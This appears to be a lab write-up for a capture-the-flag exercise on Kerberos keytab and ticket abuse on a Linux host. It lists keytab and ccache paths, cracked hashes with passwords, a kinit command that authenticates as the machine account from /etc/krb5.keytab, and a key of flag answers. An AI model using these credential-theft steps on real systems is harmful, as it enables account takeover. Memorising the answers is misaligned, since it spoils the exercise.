 **Answer**: Us1nG_KeyTab_Like_@_PRO

### Key Lab Details

#### Exact File Locations
```bash
# Keytab files found
/etc/krb5.keytab                    # Computer account (LINUX01$)
/opt/specialfiles/carlos.keytab     # Carlos user (rw-rw-rw permissions)

# Carlos scripts directory  
/home/carlos@inlanefreight.htb/.scripts/
├── john.keytab
├── kerberos_script_test.sh
├── svc_workstations._all.kt        # Main keytab (use this one!)
└── svc_workstations.kt             # Alternative keytab
```

#### Hash Values and Passwords
```bash
# Carlos keytab
NTLM HASH: a738f92b3c08b424ec2d99589a9cce60
Password: Password5

# svc_workstations keytab  
NTLM HASH: 7247e8d4387e76996ff3f18a34316fdd
Password: Password4
```

#### ccache File Patterns
```bash
# Julio's tickets (multiple files)
krb5cc_647401106_9JBodG    # Active ticket
krb5cc_647401106_HRJDux    # Alternative ticket

# svc_workstations ticket
krb5cc_647401109_JKXJ8V

# Carlos ticket
krb5cc_647402606
```

#### Computer Account Authentication
```bash
# Critical syntax - quotes are required!
kinit 'LINUX01$@INLANEFREIGHT.HTB' -k -t /etc/krb5.keytab

# Without quotes may fail
kinit LINUX01$@INLANEFREIGHT.HTB -k -t /etc/krb5.keytab
```

#### Flag Answers Summary
1. **Exercise 1**: Flag in david's home directory
2. **Exercise 2**: Linux Admins  
3. **Exercise 3**: carlos.keytab
4. **Exercise 4**: C@rl0s_1$_H3r3
5. **Exercise 5**: Flag in svc_workstations home
6. **Exercise 6**: Ro0t_Pwn_K3yT4b
7. **Exercise 7**: JuL1()_SH@re_fl@g
8. **Exercise 8**: Us1nG_KeyTab_Like_@_PRO

